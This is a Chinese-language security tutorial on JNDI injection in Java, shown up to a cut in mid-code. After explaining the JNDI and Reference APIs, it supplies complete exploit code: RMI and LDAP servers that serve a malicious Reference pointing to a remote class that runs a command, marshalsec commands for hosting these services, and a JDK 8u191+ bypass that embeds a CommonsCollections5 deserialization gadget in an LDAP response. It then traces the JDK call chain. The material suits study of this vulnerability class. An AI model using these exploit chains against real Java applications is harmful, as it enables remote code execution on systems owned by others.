







# 前言

对RMI有了一定了解后,来学习一下JNDI注入,特别是RMI+JNDI进行攻击

# JNDI

先来了解一下什么是JNDI

Java命名和目录接口（JNDI）是一种Java API，类似于一个索引中心，它允许客户端通过name发现和查找数据和对象

JNDI可访问的现有的目录及服务有：
DNS、XNam 、Novell目录服务、LDAP(Lightweight Directory Access Protocol轻型目录访问协议)、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、RMI、DSML v1&v2、NIS

JNDI的代码格式如下

```
String url= ...;//指定需要查找name名称
Context context = new InitialContext();//初始化默认环境
DataSource ds = (DataSourse)context.lookup(url);//查找该name的数据
```

这里看着很熟悉,那不是和RMI差不多?

RMI格式:

```
InitialContext var1 = new InitialContext();
DataSource var2 = (DataSource)var1.lookup("rmi://127.0.0.1:1099/Exploit");
```

# 前置知识

这里在安全客的文章上看到了一段前置知识,个人认为是有必要先了解的

## InitialContext类

### 构造方法：

```java
InitialContext() 
构建一个初始上下文。  
InitialContext(boolean lazy) 
构造一个初始上下文，并选择不初始化它。  
InitialContext(Hashtable<?,?> environment) 
使用提供的环境构建初始上下文。
```

代码：

```java
InitialContext initialContext = new InitialContext();
```

在这JDK里面给的解释是构建初始上下文，其实通俗点来讲就是获取初始目录环境。

### 常用方法：

```java
bind(Name name, Object obj) 
    将名称绑定到对象。 
list(String name) 
    枚举在命名上下文中绑定的名称以及绑定到它们的对象的类名。
lookup(String name) 
    检索命名对象。 
rebind(String name, Object obj) 
    将名称绑定到对象，覆盖任何现有绑定。 
unbind(String name) 
    取消绑定命名对象。
```

代码：

```java
package com.rmi.demo;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class jndi {
    public static void main(String[] args) throws NamingException {
        String uri = "rmi://127.0.0.1:1099/work";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(uri);
    }
}
```

## Reference类

该类也是在`javax.naming`的一个类，该类表示对在命名/目录系统外部找到的对象的引用。提供了JNDI中类的引用功能。

### 构造方法：

```java
Reference(String className) 
    为类名为“className”的对象构造一个新的引用。  
Reference(String className, RefAddr addr) 
    为类名为“className”的对象和地址构造一个新引用。  
Reference(String className, RefAddr addr, String factory, String factoryLocation) 
    为类名为“className”的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。  
Reference(String className, String factory, String factoryLocation) 
    为类名为“className”的对象以及对象工厂的类名和位置构造一个新引用。
```

代码：

```java
String url = "http://127.0.0.1:8080";
Reference reference = new Reference("test", "test", url);
```

参数1：`className` – 远程加载时所使用的类名

参数2：`classFactory` – 加载的`class`中需要实例化类的名称

参数3：`classFactoryLocation` – 提供`classes`数据的地址可以是`file/ftp/http`协议

### 常用方法：

```java
void add(int posn, RefAddr addr) 
    将地址添加到索引posn的地址列表中。  
void add(RefAddr addr) 
    将地址添加到地址列表的末尾。  
void clear() 
    从此引用中删除所有地址。  
RefAddr get(int posn) 
    检索索引posn上的地址。  
RefAddr get(String addrType) 
    检索地址类型为“addrType”的第一个地址。  
Enumeration<RefAddr> getAll() 
    检索本参考文献中地址的列举。  
String getClassName() 
    检索引用引用的对象的类名。  
String getFactoryClassLocation() 
    检索此引用引用的对象的工厂位置。  
String getFactoryClassName() 
    检索此引用引用对象的工厂的类名。    
Object remove(int posn) 
    从地址列表中删除索引posn上的地址。  
int size() 
    检索此引用中的地址数。  
String toString() 
    生成此引用的字符串表示形式。
```

# JNDI注入

JNDI注入通俗的来讲就是当url值可控的时候,也就是在JNDI接口初始化`InitialContext.lookup(URL)`引发的漏洞,导致可以远程加载恶意class文件,造成的远程代码执行

RMI+JNDI注入就是将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行

jndi注入的利用条件

- 客户端的lookup()方法的参数可控
- 服务端在使用Reference时，classFactoryLocation参数可控～

上面两个都是在编写程序时可能存在的脆弱点（任意一个满足就行），除此之外，jdk版本在jndi注入中也起着至关重要的作用，而且不同的攻击对jdk的版本要求也不一致，这里就全部列出来：

- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性
- JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击
- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了



## JNDI+RMI攻击

可以来看一个RMI+JNDI的例子,我使用的是8u74的jdk版本

首先是服务端（攻击者）

```
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String url = "http://127.0.0.1:8081/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj",referenceWrapper);
        System.out.println("running");
    }
}
```

因为是配合RMI进行JNDI注入,所以还是和RMI一样创建一个服务端,绑定对应端口,之前学习RMI的时候提到远程对象需要实现`Remote`接口和继承 `UnicastRemoteObject`类才是可以远程调用的,但是因为Reference类没有实现`Remote`接口也没有继承 `UnicastRemoteObject`类,而ReferenceWrapper类却满足,所以用ReferenceWrapper对Reference对象进行包装



恶意类

```
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

这里不要弄成main方法了,应该构造一个显示的构造函数来放置恶意代码才会执行

并且这个恶意类不要加包名,所以放在了编译器的根目录,而且不要和服务端还有客户端放在同一个目录,不要在启动客户端的时候会直接从当前目录下寻找到这个class文件,不启动web服务也能成功

接下来编译出class文件挂载在web页面上

```
编译:javac test.java
部署在web服务上：py -3 -m http.server 8081 #端口根据前面服务端url的端口
```

客户端(受害者)

```
package JNDI;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class client {
    public static void main(String[] args) throws NamingException {
        String url = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

当客户端通过`InitialContext().lookup("rmi://127.0.0.1:8081/obj")`获取远程对象时就会加载恶意class文件

先启动服务端,然后运行客户端,命令执行成功



JNDI除了配合RMI还可以配合LDAP进行攻击

### 调用链分析

跟进`InitialContext.java`的lookup方法

```
public Object lookup(String name) throws NamingException {
    return getURLOrDefaultInitCtx(name).lookup(name);
}
```

`getURLOrDefaultInitCtx`函数会分析name的协议头返回对应协议的环境对象，因为InitialContext是实现了Context接口的类,此处返回Context对象的子类rmiURLContext对象

接下来就是到对应协议中去lookup搜寻,继续跟进lookup方法

GenericURLContext.java

```
//传入的var1="rmi://127.0.0.1/obj"
public Object lookup(String var1) throws NamingException {
	//此处this为rmiURLContext类调用对应类的getRootURLContext类为解析RMI地址
	//当然,不同的协议调用这个函数的时候会根据getURLOrDefaultInitCtx函数返回的对象调用不同的			//getRootURLContext,从而进入不同的协议路线
	
    ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);//获取RMI注册中心相关数据
    Context var3 = (Context)var2.getResolvedObj();//获取注册中心对象

    Object var4;
    try {
        var4 = var3.lookup(var2.getRemainingName());//到相应的注册中心去调用lookup函数
    } finally {
        var3.close();
    }

    return var4;
}
```

因为传入的`var1="rmi://127.0.0.1/obj"`,所以调用lookup的时候,`var2.getRemainingName="obj"`

继续跟进lookup

RegistryContext.java

```
//传入的var1="obj"
public Object lookup(Name var1) throws NamingException {
    if (var1.isEmpty()) {
        return new RegistryContext(this);
    } else {
        Remote var2;
        try {
            var2 = this.registry.lookup(var1.get(0));
        } catch (NotBoundException var4) {
            throw new NameNotFoundException(var1.get(0));
        } catch (RemoteException var5) {
            throw (NamingException)wrapRemoteException(var5).fillInStackTrace();
        }

        return this.decodeObject(var2, var1.getPrefix(1));
    }
}
```

很明显进入了else分支,`var2 = this.registry.lookup(var1.get(0));`在这里RMI客户端与注册中心通信,返回RMI的服务IP,地址等信息

前面这几步都只是为了获取信息的，接下来的才是关键的调用过程

在最后return调用了decodeObject,跟进一下

```
private Object decodeObject(Remote var1, Name var2) throws NamingException {
    try {
        Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
        return NamingManager.getObjectInstance(var3, var2, this, this.environment);
    } catch (NamingException var5) {
        throw var5;
    } catch (RemoteException var6) {
        throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
    } catch (Exception var7) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var7);
        throw var4;
    }
}
```

进入后就是一个三目运算,如果实现了RemoteReference接口会怎么样

也就是前面我们RMI服务端绑定的Reference对象，如果是Reference对象会进入var.getReference()，与RMI服务器进行一次连接，获取到远程class文件地址，如果是普通RMI对象服务，这里不会进行连接，只有在正式远程函数调用的时候才会连接RMI服务

跟进`getObjectInstance`,这个函数主要是获取Factory类的实例,也即是我们的恶意类

NamingManager.java

打断点一路来到,跟进getObjectFactoryFromReference



跟进getObjectFactoryFromReference

```
static ObjectFactory getObjectFactoryFromReference(
    Reference ref, String factoryName)
    throws IllegalAccessException,
    InstantiationException,
    MalformedURLException {
    Class<?> clas = null;

    // Try to use current class loader
    try {
         clas = helper.loadClass(factoryName);
    } catch (ClassNotFoundException e) {
        // ignore and continue
        // e.printStackTrace();
    }
    // All other exceptions are passed up.

    // Not in class path; try to use codebase
    String codebase;
    if (clas == null &&
            (codebase = ref.getFactoryClassLocation()) != null) {
        try {
            clas = helper.loadClass(factoryName, codebase);
        } catch (ClassNotFoundException e) {
        }
    }

    return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
}
```

此处`clas = helper.loadClass(factoryName);`尝试从本地加载`Factory`类，如果不存在本地不存在此类，则会从`codebase`中加载：`clas = helper.loadClass(factoryName, codebase);`会从远程加载我们恶意class，然后在`return`那里`return (clas != null) ? (ObjectFactory) clas.newInstance() : null;`对我们的恶意类进行一个实例化，进而加载我们的恶意代码

可以来看看loadClass是怎么远程加载的恶意类,一共有3个loadClass函数,但是我们跟进远程调用那一个

```
public Class<?> loadClass(String className, String codebase)
        throws ClassNotFoundException, MalformedURLException {

    ClassLoader parent = getContextClassLoader();
    ClassLoader cl =
             URLClassLoader.newInstance(getUrlArray(codebase), parent);

    return loadClass(className, cl);
}
```

对于这种利用方式Java在其`JDK 6u132、7u122、8u113`中进行了限制，`com.sun.jndi.rmi.object.trustURLCodebase`默认值变为`false`

```
static {
    PrivilegedAction var0 = () -> {
        return System.getProperty("com.sun.jndi.rmi.object.trustURLCodebase", "false");
    };
    String var1 = (String)AccessController.doPrivileged(var0);
    trustURLCodebase = "true".equalsIgnoreCase(var1);
}
```

如果从远程加载则会抛出异常

```
if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
    throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
}
Exception in thread "main" javax.naming.ConfigurationException: The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
    at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:495)
    at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:138)
    at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
    at javax.naming.InitialContext.lookup(InitialContext.java:417)
    at demo.JNDI_Test.main(JNDI_Test.java:7)
```

## JNDI+LDAP攻击

前面提到过,在8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项

之所以JNDI注入会配合LDAP是因为LDAP服务的Reference远程加载Factory类不受`com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`等属性的限制

Maven导入依赖

```
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>4.0.0</version>
</dependency>
```

思路和配合RMI进行攻击是一样的

先起一个LDAP服务

```
package JNDI.ldap;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class server {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8081/#test"};
        int port = 7777;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

接下来再用客户端使用LDAP进行通信

```
package JNDI.ldap;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class client {
    public static void main(String[] args) throws NamingException {
        Object object=new InitialContext().lookup("ldap://127.0.0.1:7777/calc");
    }
}
```

恶意类

```
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

起web服务,编译恶意的class文件

```
py -3 -m http.server 8081
```



# 利用marshalsec起RMI和LDAP服务

因为自己起RMI服务确实麻烦,在实际中肯定多是用工具去起RMI和LDAP服务,所以用到了marshalsec这个反序列化工具去起服务

下载地址: https://github.com/mbechler/marshalsec

自述文档中给了编译方法：装有java8，使用`mvn clean package -DskipTests`编译

解决mvn命令的问题:https://blog.csdn.net/will__be/article/details/117412180

编译后会多一个target文件夹,里面有两个jar包

**使用方法**

```
#rmi服务器，rmi服务起在8088 恶意class在http://ip:8080/文件夹/#ExportObject 
#不加8088端口号 默认是1099
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://ip:8080/文件夹/#ExportObject 8088
```

```
#LDAP服务器，LDAP服务起在8088 恶意class在http://ip:8080/文件夹/#ExportObject 
#不加8088端口号 默认是1389
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:8080/文件夹/#ExportObject 8088
```

恶意class文件的web服务还是需要自己去起

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8081/#test 1099
```



# JDK>=8u191

在 JDK 8u191 `com.sun.jndi.ldap.object.trustURLCodebase`属性的默认值被调整为false,所以需要另外的方式进行绕过

这里我选用的是8u201的JDK版本

```
两种绕过⽅法如下： 

找到⼀个受害者本地 CLASSPATH 中的类作为恶意的 Reference Factory 工厂类, 并利用这个本地的 Factory 类执行命令. 

利⽤ LDAP 直接返回⼀个恶意的序列化对象, JNDI 注⼊依然会对该对象进⾏反序列化操作, 利用反序列化 Gadget 完成命令执行. 

这两种⽅式都依赖受害者本地 CLASSPATH 中环境, 需要利⽤受害者本地的 Gadget 进行攻击
```

## 通过反序列化

既然利用了反序列化那就需要对应的Gadget,找一个全版本RCE的CC链即可

这里使用了CC5,先起一个LDAP服务

```
package JNDI.Bypass;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        String[] args=new String[]{"http://127.0.0.1/#test"};
        int port = 1389;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData",CommonsCollections5());

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }

    private static byte[] CommonsCollections5() throws Exception{
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        return byteArrayOutputStream.toByteArray();
    }

}
```

客户端

```
package JNDI.Bypass;

import javax.naming.InitialContext;

public class server {
    public static void main(String[] args) throws Exception{
        Object object = new InitialContext().lookup("ldap://127.0.0.1:1389/DawnT0wn");
    }
}
```



以下调用过程转载于https://xz.aliyun.com/t/8214#toc-2

前面的过程和之前分析RMI的时候差不多

跟进`com.sun.jndi.ldap.Obj#decodeObject`

```
static Object decodeObject(Attributes var0) throws NamingException {
    String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

    try {
        Attribute var1;
        if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
            ClassLoader var3 = helper.getURLClassLoader(var2);
            return deserializeObject((byte[])((byte[])var1.get()), var3);
        } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
            return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
        } else {
            var1 = var0.get(JAVA_ATTRIBUTES[0]);
